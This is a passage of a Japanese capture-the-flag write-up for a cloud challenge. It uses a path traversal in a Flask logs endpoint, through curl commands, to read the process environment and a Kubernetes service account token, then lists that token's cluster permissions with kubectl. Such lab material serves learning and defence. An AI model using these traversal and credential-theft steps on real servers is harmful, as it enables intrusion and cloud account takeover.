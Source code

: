 ```py
            return render_template('logs.html', logs=content,service=file_name)
    except Exception as e:
        return f"Error: {str(e)}", 404
    
@app.route('/settings', methods=['GET'])
def settings():
    return 'Settings page coming soon'

if __name__ == '__main__':
    app.config['TEMPLATES_AUTO_RELOAD'] = True
    app.run(host='0.0.0.0', port=8000)
```

`flag.txt`があるが、ダミーのため、アクセスしてもフラグは取れない。  

問題タイトル的にクラウドサービスを利用していると思われるため、何か認証情報はないか探してみる。

- 環境変数
  - `curl --path-as-is https://silly-cloud.tuctf.com/logs?service=./../../../../proc/self/environ`

```text
PATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
HOSTNAME=silly-cloud-689c6795cc-9l9wb
LANG=C.UTF-8
GPG_KEY=A035C8C19219BA821ECEA86B64E628F8D684696D
PYTHON_VERSION=3.10.16
PYTHON_SHA256=bfb249609990220491a1b92850a07135ed0831e41738cf681d63cf01b2a8fbd1
SECRETS_NAMESPACE=secret-namespace
DEV_CLUSTER_ADDR=https://7b9fc16d-5421-47b3-ab64-83dfee3050eb.k8s.ondigitalocean.com
...<SNIP>...
HOME=/nonexistent
```

`k8s`という文字があり、Kubernetesが使われていそうなので、認証情報がないか調べる。

- トークン
  - `curl --path-as-is https://silly-cloud.tuctf.com/logs?service=./../../../../run/secrets/kubernetes.io/serviceaccount/token`

```text
eyJhbGciOiJSUzI1NiIsImtpZCI6IjU2NnhHZDhPTmVtZ...<SNIP>...AJ2cJKzAr6BCm3iIWcJkH16TaQj-FQnwjT1-TVBgQ8_vALOFlj4BPlx6ctpwoKQ
```

Kubernetesクラスターのアクセス先とアクセストークンが取得できたので、次に、どんなリソースにアクセスできるか調べる。

```bash
$ export TOKEN=$(cat token)
$ export K8S_API="https://7b9fc16d-5421-47b3-ab64-83dfee3050eb.k8s.ondigitalocean.com"
$ kubectl --token=$TOKEN --server=$K8S_API auth can-i --list
Resources                                       Non-Resource URLs                      Resource Names   Verbs
selfsubjectreviews.authentication.k8s.io        []                                     []               [create]
selfsubjectaccessreviews.authorization.k8s.io   []                                     []               [create]
selfsubjectrulesreviews.authorization.k8s.io    []                                     []               [create]
                                                [/.well-known/openid-configuration/]   []               [get]
                                                [/.well-known/openid-configuration]    []               [get]
                                                [/api/*]                               []               [get]
                                                [/api]                                 []               [get]
                                                [/apis/*]                              []               [get]
```